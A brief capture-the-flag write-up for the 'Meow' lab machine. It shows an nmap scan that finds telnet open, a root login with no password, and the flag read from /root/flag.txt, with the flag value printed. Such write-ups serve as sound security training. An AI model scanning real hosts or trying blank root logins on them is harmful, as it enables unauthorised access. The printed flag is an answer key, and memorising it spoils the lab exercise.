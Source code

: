 # Meow

#startingpoint #telnet #protocols #reconnaissance #weakcredentials #misconfiguration

`nmap` scan shows `telnet` service on port 23:

```
$ nmap -sS -T4 10.129.46.186
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 16:45 EDT
Nmap scan report for 10.129.46.186
Host is up (0.031s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
23/tcp open  telnet

Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
```

Successfully logged in as `root` with no password:

```
$ telnet 10.129.46.186
...
Meow login: root
```

Reading `flag.txt`:

```
$ cat /root/flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```
